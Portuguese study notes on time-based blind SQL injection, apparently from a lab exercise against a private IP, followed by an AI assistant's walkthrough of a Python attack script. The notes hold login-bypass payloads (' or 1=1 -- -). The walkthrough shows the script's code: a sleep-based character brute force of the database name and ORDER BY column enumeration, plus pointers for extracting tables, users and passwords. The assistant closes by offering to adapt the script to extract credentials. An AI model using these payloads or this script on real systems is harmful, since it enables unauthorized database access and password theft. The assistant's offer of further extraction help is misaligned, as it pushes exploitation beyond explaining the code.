 https://owasp.org/www-community/attacks/Blind_SQL_Injection

SQL Injection Time Based Blind

site tem um login e senha

digitando login e senha, ele diz que o username or password está invalido

como fazer bypass de uma autenticação?
	 como podemos conseguir usar o SQL injection para conseguir burlar a validação 
	 ex: CASO 1
	 
	 SELECET * from users
	 where usernam='admin'
	 and
	 password='admin'

´podemos tentar  CASO 2 ex:

	 SELECET * from users
	 where usernam='' 1 or 1 '-''
	 and
	 password='admin'

O CASO 2 nos temos um problema pq depois do campo de nome nos temos toda uma query e essa e precisamos que ele ignore  o resto dessa query e como faço isso?

eu comento a query
 podendo usar

'or 1=1# '
 ' or 1=1 -- - ''


no caso nos nao temos login e senha e nos queremos descobrir login e senha do usuario
porem nos nao temos output de erro e nao tenho como fazer UNION SELECT pq ele nao aparece pra gente na tela.

tecnica de timbased
podemos fazer ele esperar um tempo pra responder se a resposta for verdadeira e como nós podemos fazer iso para extrair dados do banco de dados?

SUBSTRING 
	Pega parte de um resultado de um comando
SUBSTRING(comando,inicio,fim)
if(comprador logico, 'se verdade','se for also

)

















Esse script que você enviou é um **ferramenta automatizada de SQL Injection do tipo Time-Based Blind**, feita em Python com a biblioteca `requests`.  
Vamos quebrar e explicar **parte por parte** o que ele faz:

---

## 🧠 Objetivo Geral:

Explorar uma aplicação web vulnerável a **SQL Injection** (no campo `username`) para **extrair informações do banco de dados** lentamente, com base no tempo de resposta (time-based).

---

## 📌 1. Função `req(query)`

```python
def req(query):
    url = "http://10.10.0.27"  # Alvo da requisição (mude para o IP correto)
    data = {"username": query, "password": "aaas"}  # Envia a SQLi no username
    r = requests.post(url, data=data)
    return r.text
```

Essa função envia uma **requisição POST** para a URL vulnerável, simulando um login, com a SQL injection embutida no campo `username`.

---

## 📌 2. Função `fuzz()` — **Time-Based para descobrir o nome do banco de dados**

```python
def fuzz():
    printables = string.printable
    nome_db = ""
    while True:
        for char in printables:
            guess_db = nome_db + char
            query = "' union select 1,2,if(substring((select database()),1,"+str(len(guess_db))+")='"+guess_db+"',sleep(3),NULL) -- -" 
```

### O que faz:

- Usa um brute-force letra por letra para descobrir o nome do banco de dados.
    
- Para cada caractere `c`, ele testa se o nome do banco começa com `nome_db + c`.
    
- Se a condição for **verdadeira**, o servidor **dorme 3 segundos (`sleep(3)`)**, indicando que acertamos o caractere.
    

```python
antes = time.time()
req(query)
depois = time.time()
total = depois - antes
if int(total) >= 3:
    nome_db = guess_db
    break
```

### Como interpreta o tempo:

- Se a resposta demorar ≥ 3 segundos, ele entende que o caractere está correto e adiciona ao nome do banco.
    
- Continua até completar todo o nome.
    

---

## 📌 3. Função `orderby()` — Descobrir quantas colunas existem

```python
def orderby(): 
    numeros = [1,2,3,4,5,6,7,8,9]
    for num in numeros:
        query = "' or 1=1 order by "+ str(num) + ' -- -'
        print(num)
        if not "Username or password is invalid!" in req(query):
            print(f'Union correct: {num}')
```

Essa função testa diferentes valores no `ORDER BY` para descobrir quantas colunas existem na consulta original do backend:

- Se você colocar um número maior que o número real de colunas, a query falha.
    
- O primeiro número que **não gera erro** é o número de colunas corretas.
    

---

## 📌 Comentários úteis no início do código:

Eles mostram como modificar a função `fuzz()` para extrair **tabelas**, **colunas**, **usuários** e **senhas** do banco, mudando apenas a subquery. Exemplo:

```sql
(select table_name from information_schema.tables where table_schema = 'cc' limit 0,1)
```

Essas instruções podem ser usadas trocando a subquery dentro da `substring()` para extrair qualquer dado do banco.

---

## ✅ Resumo

|Parte|O que faz|
|---|---|
|`req()`|Envia uma requisição com SQLi|
|`fuzz()`|Faz brute-force para descobrir o nome do banco com time-based SQLi|
|`orderby()`|Descobre quantas colunas tem a consulta do backend|
|Comentários|Guiam para descobrir tabelas, colunas, usuários e senhas|

---

Se quiser, posso te ajudar a adaptar esse script para descobrir tabelas, colunas, ou extrair usuários/senhas. É só me falar qual parte você está explorando agora. 👨‍💻🕵️‍♂️